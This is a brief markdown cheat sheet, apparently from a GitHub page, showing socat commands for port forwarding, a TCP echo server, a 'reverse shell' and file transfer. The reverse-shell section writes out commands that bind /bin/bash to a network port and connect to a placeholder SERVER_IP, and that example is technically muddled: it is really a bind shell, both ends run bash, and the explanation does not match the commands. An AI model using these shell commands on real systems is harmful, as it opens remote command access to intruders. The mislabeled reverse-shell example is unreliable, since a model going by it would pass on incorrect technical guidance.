 Socket CAT

# Port Forwarding
#### Example: Forward Local Port to a Remote Server
```bash
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80
```
- **Explanation**: This command listens on port 8080 on the local machine and forwards any traffic to port 80 on the remote server `192.168.1.100`.

# TCP Server
#### Example: Create a Simple TCP Echo Server
```bash
socat TCP-LISTEN:1234,fork EXEC:/bin/cat
```
- **Explanation**: This command listens on port 1234 and forks new processes to handle each connection, passing the data to `/bin/cat`, which echoes it back to the client.

# Reverse Shell
#### Example: Reverse Shell Connection
On the listening server:
```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
```
On the client:
```bash
socat TCP:SERVER_IP:4444 EXEC:/bin/bash
```
- **Explanation**: The client connects to the server on port 4444, and once connected, the server spawns a shell.

# File Transfer over Network
#### Example: File Transfer Using TCP
On the sender side:
```bash
socat -u FILE:/path/to/file TCP:192.168.1.100:1234
```

On the receiving side:
```bash
socat TCP-LISTEN:1234 -u FILE:/path/to/outputfile
```
- **Explanation**: The sender reads the file and sends it over TCP, while the receiver listens on port 1234 and saves the output to a file.
